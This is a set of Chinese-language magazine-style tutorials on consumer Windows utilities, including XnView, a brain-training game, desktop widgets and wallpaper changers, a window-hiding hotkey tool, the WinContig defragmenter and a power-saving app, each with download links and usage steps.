- 第三步：假如你想保证图片调整后不失真不变形，还需要通过此软件的高级设置来确保图片转换过程保持质量（见图）。单击批量文件转换窗口上方的“变换”标签进入高级操作窗口，选择“图片”下的“改变大小”，双击它，然后在右侧的参数设置上调节好放大或缩小的比例。同时，我们还需要单击“重新采样”下拉列表框，然后根据需要选择好相应的重新采样的算法，只有这样才能保证图片放大或缩小后不失真不变形。设置完毕后，最后单击“开始”按钮，此软件就会自动开始转换图片。等待几分钟后，所有图像的批量转换即可大功告成了。



有了XnView，我们不再害怕调整图片大小会变形。感兴趣的你，还不快点行动？

## 成人脑力训练 让大脑思维更活跃
文/TMG hmm

你是否常常为想不起熟悉的事情而苦恼？常常为自己的脑袋突然一时短路而懊恼不已？忘记新朋友的名字、想不起就在嘴边的话、忘记某个重要的数学公式、丢三落四把整个世界都丢在脑后……还好，现在有“成人脑力训练”来帮助你，让充满趣味的小练习不断找回你宝贵的记忆力，让脑子越转越活跃。

下载成人脑力训练软件（下载地址：http://www.newhua.com/soft/49626.htm），安装软件。双击可执行文件，点击“下一步”便可直接进入游戏主界面了。点击“开始游戏”，便进入到“角色创建”中来。给你自己起个喜欢的名字，然后选择性别，确定之后就可以开始脑力训练小游戏了。

### 综合能力测试

这一部分的题可谓是丰富多彩，从界面中我们可以看到角色共分为五种能力，包括：想象、记忆、分析、计算、直觉，你要争取所有能力都是满分。然后还有可能得到隐藏训练题，非常具有挑战力！

- 训练一：计算填空。游戏玩法是根据题目计算后选择问号处的正确答案。单击画面任意一处便可开始。
- 训练二：选颜色。游戏玩法是选一下画面中的文字是什么颜色的。
- 训练三：数数量。游戏玩法是数一下画面中相应图案的数量有几个。
- 训练四：瞬间记忆。游戏玩法是根据从小到大点击画面中的数字。
- 训练五：送鲜花。游戏玩法是男孩遇到转弯就会转，看一下他会把鲜花送给谁（见图1）。



### 脑年龄测试

这是个有趣的测试。可以看出你的脑子究竟多少岁了，是像八九岁的小孩子那般灵活还是已经变成了小老头呢？

步骤一：根据数字次序从小到大逐个点击数字图片。单击画面任意处开始（见图2）。



步骤二：在一定的时间限制下，从1到26分别选出混杂在数字之中的数字。

步骤三：全部选出之后，电脑会自动给出你脑年龄的大小。

### 自定义头像

如果你对系统自动给出的图像不满意，还可以自己动手亲自做一个喜欢的头像。你可以改变脸型、肤色、发型、唇型等来设定图像（见图3）。最后选择衣服颜色和图画背景，点击“输出”便可自动生成头像。



哈，很简单的小游戏，你是不是玩得很开心呢？可不要小瞧它们，它们可是在你神不知鬼不觉的时候锻炼了你的思维能力哦！以后没事多多训练一下，这绝对是一款贴心的小软件哦！

## 艾米桌面——办公生活好帮手
文/TMG qf

有时我们的桌面有些单调，需要找点东西来点缀一下。艾米桌面可以帮你这个忙，它是一个集阳历、农历、节气、星座、天气预报、记事及定制信息功能于一身的桌面小软件。艾米桌面还有多种漂亮的外观可供选择，还可以自定义外观哦。

下载艾米桌面软件（下载地址：http://www.newhua.com/soft/84439.htm），安装软件，运行艾米桌面。软件界面可以显示个人的相关订阅信息、未来10天的天气情况、某一天你所记录的相关信息等。

### 信息定制

在艾米桌面中我们可以定制很多相关信息服务，包括打折信息、足球赛事、电视节目、星座运势等等，很方便我们了解最新最快的咨询。

选择要定制的日期，双击选定需要定制的日期，双击就可以弹出软件界面，选择需要订阅的信息，单击“订”按钮，就完成订阅功能了（见图1）。如果需要撤消相关的订阅，只需点击已订阅信息，勾选相关选项，点击删除即可。



### 记事本功能

我们有时候会忘记些事情，这就需要来写个备忘录。无需在桌面上建很多记事本，用艾米桌面的记事本功能就可以了。

双击需要定制记事本的日期，弹出软件界面。单击界面右侧的加号按钮添加事件。在软件左侧将会弹出文本编辑区，在此可以输入想要添加的时间，再单击“提交”按钮即可。

### 个性化功能设置

艾米桌面提供了个性化的功能设置，可以根据自己的喜好设置界面、功能的显示。还可以根据个人使用情况，来设置软件所显示日历的间隔及显示的星期数等。还可以在界面设置中，进一步设置外观，包括：外观的透明程度、边框的颜色、使用的背景等。在字体设置中设置字的颜色、字体等。

单击桌面上的艾米桌面软件的“设置”按钮，将会弹出艾米桌面设置对话框（见图2）。这里提供了“常规设置”、“界面设置”、“字体设置”、“天气设置”的标签栏。可以单击标签栏，对其中各项进行设置。

有了这款绿色的桌面工具，你的桌面不再单调，你也不会忘了时间，错过重要的日子了。

## 一起来做大头贴

文/TMG zlw

不记得大头贴是什么时候开始潜入我们的生活。在保留的记忆中，总是会约上三五好友，在街边某个稍显狭小的空间里，狂摆POSE，留下当时最可爱的记忆。亦或是将所拍照片贴到各自的小物件上，肆意地张扬着专属于自己的风采。但是现在不需要这么麻烦了，只需在电脑上装个摄像头，就可以轻松尽情拍摄了。什么？没有摄像头？那也没关系，将你平时中意的照片存入电脑，像是数码相机拍摄的、手机拍摄的、网上下载的、扫描仪扫描的都行。有了这些图片，各类大头贴也是可以简单制作出来的，不过这一切都离不开它——“大头贴制作大师”软件。Let's Go! 让我们开始畅游大头贴拍摄之旅吧。

选好后将会显示在主界面的左上角窗口中。在这一步骤中，你可以大量选择图片，将它们都保存在“人像选择面板”中，便于使用时选择。

推荐下载地址：http://www.newhua.com/soft/59602.htm

下载结束后，解压缩进行安装，运行程序，进入“大头贴制作大师”软件的主界面。

#### 第三步：

选择大头贴的边框花纹。软件中的“花边选择面板”提供很多类型的边框供用户选择，你可以直接点击你中意的花边样式进行精确选择。为了操作简便，也可以通过“拍照面板”下的“十字调节”按钮，分别进行照片和边框的选择。记住：上下按钮选择的是图片，左右按钮选择的是边框花纹。

在这个不大的主界面下端聚集了几乎所有的操作页面：“拍照面板”、“人像选择面板”、“花边选择面板”、“组合选择面板”、“功能面板”。用户只需单击，就可以在各个页面之间进行切换，从而可以选择执行相应操作。主界面左上角的窗口显示经过调整后的效果，很直观；而主界面的右上角窗口则相当于大头贴的“版”，主要用来显示其排列组合方式。

#### 第四步：

通过主界面左端窗口观看大头贴的最后效果，比较满意后，即可按下“拍照面板”下的“延时拍摄”按钮，这时，你的这张大头贴就将保存到主界面的右端窗口中，而左端窗口将显示下一个边框花纹。

了解软件的主要功能后，让我们开始DIY自己的第一张大头贴作品。为方便介绍，我们以导入数码照片制作为例。

#### 第一步：

先从主界面的“组合选择面板”标签下，选择自己喜欢的大头贴排列组合样式。该软件一共提供了26组不同的排列组合方式供用户自行选择（见图）。

### 第五步：

点击右端窗口中已拍摄好的大头贴，打开“图像处理”窗口，用户可在此窗口中对大头贴进行诸如亮度、对比度、柔化、锐化以及色彩平衡等操作，也可以添加文字、描边，甚至还能将该大头贴处理成黑白、怀旧、曝光、透明等效果。另外，完成大头贴的初步修饰后，还可以在“拍照面板”下选择“特效图片”，进行诸如双胞胎、倒影、侧面倒影和四面影等特殊效果。点击“保存拍摄图片”将制作好的大头贴保存为各类图片形式。

#### 第二步：

在“拍照面板”标签下，点击“导入数码照片”按钮，便会弹出“打开”窗口。在此窗口中，选择你想要DIY的数码照片，

### 第六步：

该组合中的所有大头贴都拍摄完成且处理完毕后，我们就可以点击“打印图片”按钮，将该辑制作好的大头贴给打印出来。

至此，绚烂的大头贴便DIY完成。如果是采用摄像头制作的话，步骤也是大致相同。

另外，该软件还可以自行设置启动密码防止其他人盗用。但启动密码可是需要你牢记的，要不就会变成不仅防了别人，也防了自己哦。

赶快动动手，DIY一辑精美大头贴试试手。别忘了把完成后的大头贴传给朋友欣赏下哦，最好也能发份给我瞧瞧啦！

## 给电脑一点绿色！——桌面小软件 DesktopPlant

文/TMG lx

追求新潮的你，每天对着一成不变的电脑屏幕，是否产生枯燥乏味之感？网络小游戏风靡的今天，你是否着迷于“开心农场”或“开心农民”，享受着种植的乐趣？那么你一定要认识一下DesktopPlant。这款桌面小游戏体型小巧，设计可爱，下面就让我来介绍你们认识吧！相信你也会爱上它的。

DesktopPlant是一款桌面小软件，属于布景保护类，你可以通过这款软件在Windows桌面上养“电子植物”。只要你悉心照顾，植物会慢慢长大，完全模拟真实植物生长及环境，而特有的3D图形也会让你有真的在养植物的感觉。看着植物从小苗到开花，真的是一件很开心的事情啊！快来吧！让我们一起来种植美丽可爱的小东西。

- 浇水：单击 “Water” 项目中的浇水图样按钮。
- 施肥：单击 “Fertilizer” 项目中的施肥图样按钮。
- 光照：拉动 “Light” 项目中的滑杆，调节光照状况。
- 温度：拉动 “Temperatrue” 项目中的滑杆，调节温度。

此外，还可以通过 “Info” 选项卡，查看植物生长状态，以及很重要的养殖信息。在 “Info” 选项卡下方会有对该植物的介绍，包括对植物是喜阴还是喜阳，需要的水和肥量等，我们可以根据这些信息来调节 “Care” 选项卡中的 “Water”、“Fertilizer”、“Light”、“Temperatrue”。
“Option” 选项卡用来进行软件和植株设置，“About” 选项卡则可以显示软件信息。

下载DesktopPlant（下载地址：http://www.onlinedown.net/soft/13205.htm），解压缩后，单击 “DPSetup” 应用程序，进行安装。虽然这款小软件是英文界面，但操作起来还算是很简单的。安装成功之后，进入 “开始→程序（P）→DesktopPlant→Plants”，可以看到有很多可以选择的植物种类，挑选想要种植的植物种类，然后单击。这时桌面上就会出现相应的盆栽了（见图）。

但是，大家在种植之后，可不能就不管它了啊！植物需要悉心照顾，仔细培育，才能茁壮成长。如果不照顾它，它则会慢慢枯萎到死亡。怎么来照顾培育呢？只需双击盆栽就会出现相应的对话框，然后按照需要，调整相应项，就可以模拟浇水、施肥、光照、温度。如果管理得比较好，植物就会长得很快。

这款软件使用起来很简单，体积也很小，是一款不错的桌面小软件。但是，可不要认为用DesktopPlant来种植植物仅仅是一种休闲娱乐，更为重要的是它还可以美化电脑桌面，在你繁忙的用眼时间里，让眼睛偶尔“分个神”，休息一下。赶快装上一个，享受DesktopPlant带来的种植乐趣吧！

## 个性化桌面看我的——“e族百变桌面”软件

文/TMG zlw

你的电脑桌面还是随机附带的原始模样？你一年四季使用的还是同一张桌面图片？我的天，你被潮流out了！不过没关系，赶快使用“e族百变桌面”软件，站在时尚潮流前线，做个随心所欲的潮人吧。
“e族百变桌面”软件（下载地址：http://www.newhua.com/soft/5345.htm）

储存了成千上万张精美的壁纸图片，如果你都不喜欢，它还支持自行下载，为用户提供了多种动态变幻桌面的方式，比如静态壁纸的无缝动画切换、视频壁纸、一键更换桌面主题等，操作起来十分方便。相信一旦拥有它，你的生活也会跟着精彩起来，成为“百变精灵”。
下载安装后，你会看到“e族百变

桌面”不大的主界面上，聚集着几乎全部的控制按钮。左侧有三个标签，分别是：“我的桌面”、“网上资源”、“已下载资源”。在“我的桌面”标签下，又包含了“壁纸图像”、“桌面主题”、“精彩视频”等常用子目录。而“网上资源”和“已下载资源”更多的是为了满足有特殊要求的用户，一般情

### 随意换桌面

在主界面的“我的桌面→壁纸图像”下选择自己喜欢的壁纸类型，然后点击选中的类型按钮。在主界面的右边就会出现很多此类型图片的缩略图。将鼠标指针移动到自己最中意的那张图片上，双击鼠标左键，或者是点击鼠标右键，在出现的菜单内选择“应用单个项目”即可，你的桌面就变成你中意的图片啦。

### 添加喜爱的图片

如果软件自带的图片中没有你喜欢的，你还可以自行下载、添加自己喜欢的图片。在界面右侧点击鼠标右键，从弹出的菜单中选择“添加多个文件”选项即可。当然你也可以根据新添图片的类型分别存放好，或者是新建一个文件夹用来专门存放自己自行下载的桌面图片。

### 动态变幻桌面

是不是早就厌倦了一尘不变的静态桌面？选中你喜欢的图片类型，然后点击“开始变”，该类型下的所有图片就会依次变化，你的桌面也就动感十足了。如果你不希望所有的图片都参与变换过程，你也可以先按住“shift”键挑选出几张喜欢的，再按下“开始变”，这个时候就只有你选中的图片轮番变换了。当然要设置视频片段、Flash动画为桌面，也同样是“选中”和“开始变”两个超简单的步骤（见图）。

用“e族百变桌面”软件来打理宝贝电脑的桌面，随心情、环境随意改变桌面，大声呐喊出专属于自己的语言符号。玩转绚丽桌面，玩转精彩生活。

## 工作中的娱乐——“抬头吧”

很多朋友都喜欢看名人名言、中外谚语，可以从中得到很多启发，给自己以激励。可如今有很多事情要忙，没太多时间再去抱着书本看了。那让“抬头吧”来帮忙吧，它自带了幽默短消息、名人名言、歇后语、各国谚语，另有魔鬼辞典、小笑话、英语趣味句子等大量资源。而且这些名句将在Windows系统当前活动窗口的标题栏上显示，不占用任何屏幕空间。“抬头吧”中自带的名句不够你读，你还可以加载自己的文本进行阅读，让你在工作之余随时都可以抬头看看标题栏，放松一下。下载抬头吧软件（下载地址：http://www.onlinedown.net/soft/5501.htm），安装运行后弹出软件主窗口。

### 阅读名句

抬头吧软件中自带了很多名句，只需打开软件就可以在标题栏看到了。第一步：在“显示内容”处有下拉菜单，单击下拉菜单，有谚语、名人名言、幽默短消息、魔鬼词典、笑话、成语词典、唐诗三百首、古诗佳句可供选择（见图1）。

第二步：这些名句将会在标题栏中滚动出现，可以设置它的滚动速度。在“显示速度”一项，拖动滑动条调节速度。第三步：选择名句的显示顺序。抬头吧软件提供了三种顺序：由前向后、由后向前、随机显示。可以根据需要进行调整。

### 自行添加阅读文本

除了能阅读软件中已有的内容之外，我们还可以将自己电脑中的文档作为显示介质，自行设定阅读文本。第一步：把系统中需要添加的TXT文本复制到抬头吧软件安装文件夹的“resource”文件中。第二步：在抬头吧软件主界面中单击“添加文本文件”按钮，则会弹出“resource”文件夹。选择你要阅读的文本（见图2）。

第三步：然后重新启动一下“抬头吧”软件，这样新添加入的文本标题便会显示在“显示内容”下拉框中了，最后从中选择新内容标签就可以显示出来了。这个小软件是不是很方便也很有趣？使用了它既不影响正常的电脑操作，又能增长阅历，非常不错哦！

## 中国古典壁纸轻松做——中国古典壁纸编辑器

文/TMG qf

很多网友都喜欢古典诗词，如果电脑桌面上放一幅有意境的国画，再加上一首诗词，真是充满诗情画意啊！中国古典壁纸编辑器就可以帮你这个忙，它自带了300首古典诗词和很多的国画素材，可轻松制作出各种分辨率的壁纸、贺卡。

第一步：下载中国古典壁纸编辑器（下载地址：http://www.newhua.com/soft/84775.htm），解压缩软件。运行中国古典壁纸编辑器，进入软件界面。我们先来选择一首诗词，软件按照朝代和格律对诗词分别做了详细的分类，可以在界面的左上角进行切换。比如我们选择按照朝代分类，再单击“唐”，即会出现唐朝的诗人名单，如再选择“李白”，即出现李白所做的诗词。软件还提供了诗词搜索功能，单击搜索按钮，输入诗词名，就可以快速查询到想要的诗词了。单击一首喜欢的诗词，诗词的全文将会在右侧完整显示出来。

第二步：调整背景色。诗词的背景颜色默认是绿色，我们可以改变背景色，也可以换成一幅图片。在界面的顶部，单击背景的颜色，则会出现调色板，在调色板中选择一种你喜欢的颜色作为背景色。或者单击“更换前景颜色”按钮，在弹出的对话框中选择一幅喜欢的图片。如果图片的位置不合适，可以直接用鼠标拖动图片进行调整。

第三步：对于古诗词，默认显示的颜色是黑色，我们也可以调整为其他的颜色。单击界面顶部的文字颜色区域，在弹出的调色板中选择需要的文字颜色（见图）。

第四步：对于古诗词，如果显示的字体是毛笔字体的话，一定更有意境。在文字字体的下拉菜单中选择一种合适的字体，并通过选择合适的字号来调整文字的大小。对文字我们还可以加粗、下划线、倾斜等操作。

第五步：文字与背景图有机的结合还需要排版。中国古典壁纸编辑器目前还只能横版和竖版排版，不能随意变动文字位置。

你的电脑桌面已经增添了几分韵味吗？

## 快速轻松隐藏 一键搞定所有窗口

文/TMG hzl

正在上网玩玩游戏聊聊天，老板突然“杀”进来；正在浏览“隐私”文件或偷看一些电影，突然一位不速之客“闯”进来……很多“尴尬”情况常常会一不小心发生在我们身边，让我们猝不及防手忙脚乱，而且很多时候也来不及关闭那些窗口。怎么办？此时，我们就需要一种简单方便的桌面即时隐藏软件，可以快速轻松隐藏聊天、游戏等窗口，同时关闭声音，确保隐私内容不被别人瞥见，保证一切都在悄无声息地运行。下面，我们就具体来介绍如何设置一层保护，轻松做到快速隐藏各种窗口。

第一步：首先下载“婕西伊遮斯一键闪屏”软件（下载地址：http://sq.newhua.com/soft/75359.htm）。这是一款小巧的隐藏软件，能够瞬间隐藏所有运行中的界面和各种窗口，实现静音，功能很强大，操作却异常轻松简单。下载完后，解压双击运行可执行文件“PcShan.exe”即可，无需安装。

第二步：从软件主界面我们可以看到，功能简单，完全傻瓜式的操作，就算没有使用过电脑的人也可以轻松应付得了，毫不夸张。我们在软件主界面上可以进行简单的设置，根据个人习惯和喜好选择希望隐藏的对象以及隐藏操作的方式。不过，我们也要注意，设置完毕后必须单击“保存设置”按钮

第三步：我们也可以通过单击“设置”按钮，设置语言选项。单击“设置”按钮，在弹出的窗口里，选择好语言，最后单击“确定”即可（见图2）。

所有设置好后，我们就可以来具体操作各项功能了。总的来说，此软件能实现这些具体功能，隐藏窗口种类包括瞬间隐藏所有打开的网页、各种运行的游戏界面；瞬间隐藏QQ、MSN、UC等即时聊天窗口；瞬间隐藏正在运行的播放器等应用程序；瞬间隐藏桌面内容和任务栏菜单；瞬间隐藏窗口的同时，同步实现音量静音。而隐藏操作方式包括通过热键F12切换，或者同时按下鼠标左右键切换。总的来说，“婕西伊遮斯一键闪屏”软件麻雀虽小，五脏俱全。界面简洁，操作简单，非常实用。有了它，就可以真正实现“瞬间隐藏屏幕私密，一键轻松化险为夷”，任何不速之客的来访都应对有方。不过，我们也要注意，此软件为共享版，用户只能试用60次。

## 好心情，从桌面开始！

很多时候，我们都容易厌倦一成不变的桌面，即使它很美很美，不过事物再美时间长了也容易感到厌烦。时下盛行的绚丽多彩、时尚个性的桌面软件，每天可以自动转换精美桌面图片，将时尚与独立、个性与精彩融合在一起。让自己平淡的桌面变得丰富多彩，与众不同吧！完全是傻瓜化操作。

### 让壁纸自动进我家

首先下载壁纸雷达软件（下载地址：http://www.newhua.com/soft/40899.htm），这是一款小巧的壁纸工具软件，每天可以为你自动下载最新最酷的壁纸且自动铺在桌面上。下载完后，双击运行“wrsetup.exe”文件，一路单击下去即可完成软件安装。

安装完成后，我们会看到软件在用户的任务栏托盘上显示一个新的图标。在这个软件图标上右击，接着在弹出的菜单里选择最上面的“更改壁纸雷达设置”功能项，将软件的设置界面打开进行设置。

打开软件界面后，首先我们设置需要下载的图片类型，在图库分类页面，壁纸雷达为我们提供了自然风光、植物花卉、旅游景点、西方佳丽、体育运动、男明星、游戏电玩、东方丽人等十六种分类（见图1），以最大限度地方便我们进行图片类型的下载。因此，我们可以轻松快捷地根据喜好选择自己欣赏喜爱的图片类型，选中它们，这样软件就会按照我们的需求来下载图片。

### 壁纸变变变

把壁纸下载设置好后，开始设置壁纸更换的周期和壁纸显示的位置。单击进入常规设置页面，在这里设置周期甚至可以精确到指定的秒钟。同样，我们也可以根据需要通过使用滑块来设定图片的下载速度。注册后还能设置将壁纸自动保存在下载记录里，以及在系统启动时是否自动运行程序（见图2）。

我们还可以设置桌面自动更换不同文件夹的壁纸，包括系统壁纸文件夹和新下载的图片文件夹，以及设置一些热键功能令我们更加方便快捷地更换壁纸或者清除壁纸。只要单击进入高级设置页面，上述功能都可以设置，根据个人的习惯与爱好设置好即可。我们还可以设置壁纸的更换方式，可以选择随机、按缺省顺序或新下载的壁纸优先。

全部设置大功告成后，单击“保存”按钮即可。我们每天就可以在桌面上看到壁纸雷达展示的最精美最时尚的图片，并且还可以通过设置好的热键控制那些壁纸的播放。

### 漂亮的壁纸收藏好

好看的壁纸让人爱不释手，收藏到哪里呢？壁纸雷达还为我们提供了壁纸收藏夹功能，可以将那些自己喜爱的壁纸保存到壁纸收藏夹里，让它们参与壁纸的切换，这样就可以经常用自己喜爱的壁纸来切换桌面。怎样操作呢？很简单，在任务栏的图标上右击，然后选择“壁纸收藏夹”功能项，接着在弹出的对话框中单击“增加”按钮，然后添加图片到壁纸收藏夹里就可以了（见图3）。

我们平时下载时，突然发现自己特别喜爱的图片，也可以直接右击任务栏中的壁纸雷达图标，选中“加入收藏夹”功能直接将此图片添加到收藏夹里。这里提醒一下，假如壁纸收藏夹里的图片显示不正常，我们可以选择“重新加载”按钮来修复。

浏览壁纸图片的时候会看到桌面的一些图标，不够美观。右击壁纸雷达任务栏中的软件图标，然后选择“显示/隐藏桌面图标”功能，桌面的图标将会全部隐藏，就可以全屏欣赏完整壁纸显示效果，桌面也成了会动的精美画廊。此时，我们还可以通过单击壁纸雷达的图标进行快速切换显示，随时都能欣赏精美图片，放松心情，感受舒畅。显示和隐藏桌面图标间可任意切换（见图4）。

使用此功能隐藏桌面图标后，我们将不能在桌面上使用鼠标右键，同时光盘的自动播放功能也不能使用，活动桌面也将被关闭。

> 小提示
可以利用壁纸雷达控制壁纸下载，一切随我们设置。假如想暂时停止下载新图片，可以右击任务栏中的软件图标，选择“停止下载壁纸”功能；而要恢复壁纸雷达的下载功能，去掉“停止下载壁纸”的选中标志即可。当然，有时候可能因网络问题，壁纸下载功能不正常，此时我们可以选择“重新开始下载”功能，让壁纸雷达重新下载图片即可。

快点行动吧，给桌面安装上壁纸雷达，每天自动给你更换精美桌面图片。天天换桌面，天天好心情。桌面壁纸不再陈旧，彻底放松心情，提高生活情趣和工作效率，何乐而不为呢？

## 教你高效快捷整理碎片
文/TMG hzl

我们要知道，电脑用久了，磁盘里就会存在非常多的碎片，随之而来，你会感觉到系统运行和磁盘存储的速度有一定程度的下降，怎么办呢？是时候整理一下那些磁盘的碎片，以改善目前情况，提高工作效率。而且，定期整理碎片，可以对系统保持最佳状态起到很大作用。

虽然说，我们运行的Windows操作系统都自带有碎片整理程序，而且目前网上可供选择的磁盘碎片整理软件也数不胜数。不过，很多软件，跟Windows操作系统中的碎片整理程序一样，只能对整个磁盘分区进行整理，这样整理效率较低，而且耗费时间长。假如你想对某个指定文件或文件夹进行碎片整理，上述的那些软件或程序都不能满足你的需求。

因此，假如你想更高效、更有目的地整理碎片，让操作更加称心如意，不妨试一下WinContig。

第一步：首先下载WinContig（下载地址：http://www.newhua.com/soft/57316.htm），接着解压，运行“WinContig.exe”文件，一路单击下去把软件安装好。这时桌面上就出现此软件图标，双击运行此软件。

第二步：运行软件后，首先最好将软件的显示语言设置为中文。依次单击菜单项“Options→Language”，选择“Chinese Simplified（简体中文）”即可切换到中文界面。当然，如果默认显示的不是英文界面，同样也可以通过菜单来切换。还有，WinContig的整理速度相当快，因此最好选择精确模式的整理方案。依次单击菜单项“选项→整理方案”，选择“精确”即可。

第三步：设置完毕后，就开始对文件和文件夹进行碎片整理。单击软件界面上工具栏“添加”按钮的下拉三角，然后根据个人需要选择添加的文件或文件夹。在此，你可以选择你平常存储日常文档和下载文件的两个目录，把它们添加到列表中去（见图1）。



假如，你发现添加的文件夹里有些子文件夹或程序不需要整理，可以单击菜单“工具→管理排除列表”，然后在其窗口上把这些不需要整理的文件或文件夹添加进去，这样的话，软件就不会对它们进行分析和整理。

第四步：添加完毕后，需要对那些文件进行分析，以确定哪些需要进行碎片整理。单击软件主界面上的“分析”按钮，软件就开始自动分析。等待一些时间，分析完成后，WinContig自然会给出分析报告。软件界面会显示出那些添加的文件和文件夹是否有碎片，同时我们也可以了解到已扫描的文件和文件夹信息、包含碎片最多的文件列表等。

第五步：终于到了最关键的一步，那就是整理碎片。在分析报告窗口上，单击“整理”按钮，WinContig开始操作，对那些有必要的文件和文件夹进行碎片整理（见图2）。当然，假如你想操作更快点，可以在“碎片最多的文件列表”里选中那些文件，并单击“整理”按钮旁的下拉三角，选择“仅整理选定的文件”，这样操作明显加快，也比较有效率。



| 属性 | 值 |
| :--- | :--- |
| 已处理的文件数量 | 9,806 |
| 零碎文件的数量 | 754 |
| 连续文件的数量 | 9,042 |
| 处理过程中发生错误无法分析的文件数量 | 0 |

| 文件名称 | 碎片 | 簇 |
| :--- | :--- | :--- |
| D:\Program Files\QQ\QQ.tlg | 2,222 | 3,625 |
| D:\Program Files\QQ\QQlog.txt | 181 | 198 |

注意，软件开始整理后，会出现个对话框，询问你是否先检查磁盘错误。我们最好不要跳过此步，单击“检查磁盘”按钮确定先检查。

检查完毕后，此时又出现个对话框，提示你可以删除临时文件以恢复磁盘空间，这里就随你选择，可以清理磁盘，也可以不清理磁盘，这步操作无关紧要。

接下来，也不需要再做什么，安静等待即可。WinContig自然会自动进行碎片整理。此过程完成后，就会弹出整理报告。

此外，我们也要注意，运行的文件是无法进行整理碎片的，所以务必保证整理碎片前，关闭所有需要整理的文件，同时要确保那些所添加的文件夹下也没有文件正在运行和使用。

怎样，是不是感觉特别棒？用WinContig，我们可以轻松完成对特定文件和文件夹的碎片整理，方便快捷，而且还很有效率。所以说，假如你想对磁盘碎片“有的放矢”进行整理，不妨试一下WinContig，高效便捷，且有效减少碎片整理对硬盘的伤害。

## 节能环保 省省看
文/TMG hzl

目前，随着人类的发展，对能源的不正当开发和利用以及环保意识淡薄，造成目前诸多环保问题，譬如气候异常、各种能源和资源日渐减少等等。同时，据市场调研公司报告，目前全球电脑出货量早已突破2.5亿台，并且每年还呈现2位数的增长。据测算每台电脑运作功率大约在250~400瓦之间，假如我们每天开10小时，月消耗的电就会大约90度，假如再乘上2.5亿台，那么显而易见总耗电量将高达225亿度，可见全球电脑对能源的消耗非常大。

因此，我们要学会节约能源，从身边做起，从小事做起。省省看™是全球首款中文公益环保软件，非常实用而且有意义。它不仅能够自动管理显示器，硬盘等耗电设备，直接快速地帮助我们节约电力开支，而且也可以相应地延长电脑寿命。同时，该软件还将电力资源以量化的形式折算成节约了多少树木和石油，让我们时刻认识到节约电能不但可以降低能耗，而且还可以为抵御全球变暖和保护环境做出我们应有的贡献。

所以说，今天就开始使用省省看™，做一名环保志愿者，为环保节能做贡献。下面，我们就来具体介绍如何操作，让我们的电脑环保节能。

第一步：

首先下载省省看™软件（下载地址：http://www.shengshengkan.com/download.html）。省省看™软件目的是通过CPU智能降频技术和设置一些系统参数来节省电脑的耗电量，而且该软件只有几百KB，安装以后只占很小的资源，没有任何病毒插件和广告，完全免费，非常实在。下载完成后，我们双击运行可执行文件“ssk_setup.exe”，安装过程非常简单快捷，一路单击下去即可完成。

第二步：

安装完成后，从软件主界面我们可以看到，该软件主要向用户显示每时每刻所节约的电能及其相当量。设计十分小巧，界面为深灰色画面，同时该软件还分团队和个人依次显示节电的度数及相当量，很人性化（见图1）。软件主界面下面则是一排工具按钮，包括常规、工具、账户、论坛四大功能。



第三步：

接着单击“工具”按钮，查看该软件为我们提供的包括一系列小工具的全新工具箱。通过这个工具箱，我们可以十分方便地调节显示器亮度，轻松关闭不常用的硬件设备（蓝牙、光驱等），节省电能消耗，同时也可以让电脑在指定的时间开始下载或运行特定软件、定时自动关机等（见图2）。还有更多方便智能的工具正在开发中，以后会逐步加入工具箱。



第四步：

利用工具箱里的一系列工具，设置一些功能，为我们电脑节约电源。

### 1.常规设置
单击“常规设置”按钮，打开系统设置窗口，这里我们可以根据个人习惯和喜好设定是否开机时启动、是否在后台运行、是否在MSN上显示公益信息及主界面显示快捷键。设置完毕后，单击“确认”即可。

### 2.屏幕管理
单击“屏幕管理”按钮，打开屏幕管理窗口，这里我们同样可以根据个人习惯和喜好调节屏幕亮度及设置关闭屏幕快捷键。设置完毕后，单击“确认”即可。

### 3.硬件管理
单击“硬件管理”按钮，打开硬件管理设置窗口，选择是否关闭平时不常用的硬件设备，以便节约用电。设置完毕后，单击“确认”即可。

### 4.离开设置
单击“离开设置”按钮，打开离开模式设置窗口，这里主要设定我们机器在空闲多长时间后自动进入离开模式及机器在离开模式下所进行的一系列省电操作。设置完毕后，单击“确认”即可。

### 5.闹钟设置
单击“定时器”按钮，打开闹钟设置窗口，这里我们不仅可以设定何时让电脑来提醒我们应该做的事情，而且还可以设定电脑在未来的某个特定时刻自动关机或运行某个程序等，这样显而易见我们就好像有了一个免费的电脑小秘书，更有效地利用和节约时间，提高工作效率。设置完毕后，单击“确定”即可（见图3）。



### 6.CPU设置
单击“CPU节能”按钮，打开CPU设置窗口，我们发现这里不仅可以显示CPU的详细信息，还可以让我们设置CPU节能方式，使程序根据我们的需要智能地降低或提高CPU频率，这样可以延长CPU的寿命，当然同时也节约更多电能。设置完毕后，单击“确认”即可。

### 7.设置向导
单击“设置向导”按钮，打开设置向导窗口，我们要知道，软件首次运行后会自动弹出设置向导窗口，这里我们可以进行一些简单而重要的参数设置。设置完毕后，单击“确认”即可。

第五步：

假如我们想进入省省看社区，或者想和省省看的其他团队成员进行交流，可以注册一个用户名，创建个人账户，然后才能进入社区与其他成员交流或创建自己的节能团队。让我们一起合力，共同为环保节能做贡献。

总的来说，省省看™软件功能强大，创意独特，在能源危机以及污染日益严重的今天，这么一款公益环保节能软件应运而生，实在非常有意义。节省电力开支，有效延长电脑寿命，为环保节能做贡献，让我们的生活更绿色、更健康一些。

## 做经典游戏 找回童年记忆
文/TMG hmm

还记得当年风靡一时的《魂斗罗》吗？还记得自己当年废寝忘食投入其中的画面吗？还记得在朋友中间热烈讨论它的场面吗？虽然它早已成了遥远的回忆，但是我们仍然可以在今天通过一款小小的软件来重温它曾经给我们带来的欢乐与感动。现在有Flash Game Workshop来帮助你，无需任何编辑基础，轻松点击鼠标即可DIY一款你的“魂斗罗”（见图）。



下载软件（下载地址：http://www.newhua.com/soft/20465.htm），解压后安装软件。双击可执行文件，进入主界面。

第一步：新建游戏项目。进入主界面后，会自动弹出一个新建窗口。打入你的姓名和游戏名称，单击“确定”，便创建了一个属于你自己的作品。

第二步：选择场景。主界面有一个“游戏场景”选择栏，可单击“丛林”或“心脏”。选择栏下可以手动选择颜色。可以任意拖动自己想要的颜色和透明度。

第三步：添加素材。做一个素材很复杂，但幸好这款软件提供了非常丰富的素材库。对于内置素材，用户只需直接拖动左侧的素材到游戏场景中来，即可完成素材的堆积。然后对素材进行编辑，比如颜色、大小、位置的调整等。

第四步：测试游戏。可直接单击“控制”菜单中的“单人测试”或“双人测试”来验证游戏的运行效果。中途如有不满意可以单击“暂停”图表，随时进行修改。

